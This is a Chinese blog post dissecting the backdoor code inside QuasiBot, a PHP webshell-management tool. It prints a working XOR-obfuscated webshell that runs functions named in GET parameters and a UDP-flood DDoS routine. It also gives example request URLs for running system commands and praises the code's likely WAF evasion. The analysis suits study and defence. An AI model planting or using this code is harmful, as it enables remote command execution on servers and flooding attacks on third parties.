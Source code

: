 ```yaml
---
layout: post
title: "批量Webshell管理工具QuasiBot之后门代码分析"
tags: [web,secrity]
---
```



### 一、前言
最近在想着写一款webshell批量管理工具，发现目前有一款开源的，由php编写的管理平台-``QuasiBot``。

项目地址：[https://github.com/Smaash/quasibot](https://github.com/Smaash/quasibot)

QuasiBot是一款php编写的webshell管理工具，可以对webshell进行远程批量管理。这个工具超越于普通的webshell管理是因为其还拥有安全扫描、漏洞利用测试等功能，可以利用大量的webshell进行高效的测试工作。

在本地使用QuasiBot的时候，发现它的内置后门代码非常不错，所以便有了此文。下面针对QuasiBot的两种后门代码进行剖析：``非DDoS``版 和 ``DDoS``版。

### 二、分析

#### 1. 非DDoS版

首先给出 ``非DDoS`` 版本的后门代码：

{% highlight php%}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

格式化一下，显得比较清晰：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";
	$_=($_^"<").($_^">").($_^"/");
	${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

首先来分析一下代码结果，QuasiBot的后门代码十分简单，由一个 ``if...elseif...`` 构成。

可以看到 ``elseif($_GET['___'])`` 直接运行从Get请求过来的参数 ``___`` 的函数。例如这里后门地址为：``http://www.virtual.com/ma.php``，那么构造如下请求就会让后门代码去执行 ``phpinfo()`` 函数来获取系统的相关信息。

	http://www.virtual.com/ma.php?___=phpinfo

然后再看第一个 ``if($_GET['_'])`` 部分，当有参数 ``__`` 传入时进入条件：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";
	$_=($_^"<").($_^">").($_^"/");
	${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
}
...
?>
{% endhighlight %}

根据代码可以看出，QuasiBot将通过后门执行的输出都放到 ``response`` 的注释 ``<!-- ... -->`` 里去了，这里有一定的隐藏效果。注意这里 ``print "<!--".$_="{:|";`` 这里对 $_ 变量进行了赋值，然后是通过字符的异或运算连接起一个 ``"GET"`` 字符串：

	$_=($_^"<").($_^">").($_^"/");

``$_^"<"`` 会将 $_ 变量的第一个字符的ascii码与'<'的ascii码 进行异或，也就是 ``123``('{'的ascii码) 与 ``60``('<'的ascii码)进行异或：

	123^60 ==> 71 ('G')

得到ascii码 ``71`` 也就是字符 ``"G"``，通过相同方法构造出 ``"E"`` 和 ``"T"``，然后将其连接构成字符串 ``"GET"``。

然后根据php中的一个变量引用特性，以 ``${'_GET'}["__"]`` 作为参数调用函数 ``${'_GET'}["_"]()``。

这里的函数执行涉及到了php中 ``动态函数调用`` 和 ``花括号{}使用`` 的trcik。

[《常用PHP中花括号使用规则详解》](http://www.cnblogs.com/jayleke/archive/2011/11/08/2241609.html)这篇文章比较详细的讲了在php中 ``{}`` 使用时需要注意的地方。

给出一个简单易懂的例子说明一下 ``动态函数调用``，看下面这段代码 ``demo.php``：

{% highlight php %}
<?php
$func = "demo";
function demo() {
	echo "Demo on!"
}

$func();
?>
{% endhighlight %}

这里为了方便，直接在终端使用php执行该脚本文件，执行 ``php demo.php`` 得到输出 ``Demo on!``。

看了这个demo.php再结合 ``{}`` 的使用就很容易理解后门中的这段代码： ``${'_GET'}["__"](${'_GET'}["_"])`` 。

写得明显点就是：``$_GET["_"]($_GET["__"])``。

简单明了的QuasiBot非DDoS后门代码：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--{:|";
	$_GET["_"]($_GET["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

例如在win下要执行 ``system('dir')``，后门url为：http://www.virtual.com/ma.php，那么请求：http://www.virtual.com/ma.php?_=system&__=dir

在返回页面的源码里，得到如下内容：

	<!--{:| 驱动器 D 中的卷没有标签。
	 卷的序列号是 2EE6-3EE0

	 D:\PhpStudy\WWW 的目录

	2014/12/03  21:05    <DIR>          .
	2014/12/03  21:05    <DIR>          ..
	2014/12/03  21:05    <DIR>          discuz
	2014/11/10  22:43    <DIR>          Documentation
	2014/11/22  02:13               431 function.php
	2014/12/04  17:37               226 ma.php
	2014/11/19  22:38    <DIR>          mybb
	2014/11/20  12:53    <DIR>          mybb1
	2014/10/21  17:11    <DIR>          phpMyAdmin
	2014/11/25  23:52    <DIR>          phpMyRecipes
	2014/11/25  14:59    <DIR>          phpok
	2014/11/15  11:36    <DIR>          piwigo
	2014/11/14  14:04    <DIR>          qibomenhu
	2014/11/26  08:55    <DIR>          quasibot
	2014/11/27  11:50    <DIR>          rocboss
	2014/11/21  00:25    <DIR>          sqli
	2014/11/14  15:59    <DIR>          thinksns
	2014/11/10  22:43    <DIR>          Tools
	2014/11/10  22:44    <DIR>          upload
	2014/12/03  19:36               256 upload.php
	2014/11/22  12:54    <DIR>          wordpress
	               3 个文件            913 字节
	              18 个目录 35,217,747,968 可用字节
	{:|7d9f82db8d7d8b1ed3fda323040e671a{:|WINNT{:|-->

命令成功执行，其他比较细节的分析这里就不在多说了，有兴趣的可以自行总结。

#### 2. DDoS版

DDoS版后门代码如下（代码有点长）：

{% highlight php %}
<?php
if($_GET['_']) {
print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { @$_GET['___'](); } elseif(isset($_POST['target'])&&isset($_POST['time'])){$fn0=0;$pm1=$_POST['time'];$yu2=time();$az3=$yu2+$pm1;$jd4=$_POST['target'];$kb5=gethostbyname($jd4);for($pt6=0;$pt6<65553;$pt6++){$yf7.='X';}while(1){$fn0++;if(time()>$az3){break;}$yw8=rand(1,65553);$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);if($vl9){fwrite($vl9,$yf7);fclose($vl9);}}}elseif($_POST['kill']=='1'){exit(0);}
?>
{% endhighlight %}

格式化一下：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) {
	@$_GET['___']();
} elseif(isset($_POST['target'])&&isset($_POST['time'])) { 
	$fn0=0;
	$pm1=$_POST['time'];
	$yu2=time();
	$az3=$yu2+$pm1;
	$jd4=$_POST['target'];
	$kb5=gethostbyname($jd4);
	for($pt6=0;$pt6<65553;$pt6++) {
		$yf7.='X';
	}
	while(1) {
		$fn0++;
		if(time()>$az3) {
			break;
		}
		$yw8=rand(1,65553);
		$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
		if($vl9) {
			fwrite($vl9,$yf7);
			fclose($vl9);
		}
	}
} elseif($_POST['kill']=='1') {
	exit(0);
}
?>
{% endhighlight %}

前面部分的参数判断这里就不讲解了，请参照``非DDoS版``的分析。直接看DDoS代码部分，这里通过 ``$_POST['target']`` 来获取目标，``$_POST['time']`` 为攻击持续的时间（这里以秒为单位）。 

接下来就是一系列的准备工作，构造 ``65553`` 字节的超长数据通过 ``udp`` 的方式向目标随机端口打流量（为哈要随机端口，没懂）。

构造 ``65553`` 字节的数据：

	for($pt6=0;$pt6<65553;$pt6++) {
		$yf7.='X';
	}

随机生成端口号（最大不应该是65535？）：

	$yw8=rand(1,65553);

创建socket并发送数据：

	$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
	if($vl9) {
		fwrite($vl9,$yf7);
		fclose($vl9);
	}

至此 ``QuasiBot`` 两种模式的后面简单剖析完毕。值得学习的是该后门对php特性的运用，整个后门代码（``非DDoS版``）没有出现任何较敏感的关键字，能绕过大多数通过关键字检测的waf（未验证，目测。不要拍砖）。

其中DDoS部分，没太明白为何是随机端口发送，持续跟进下。
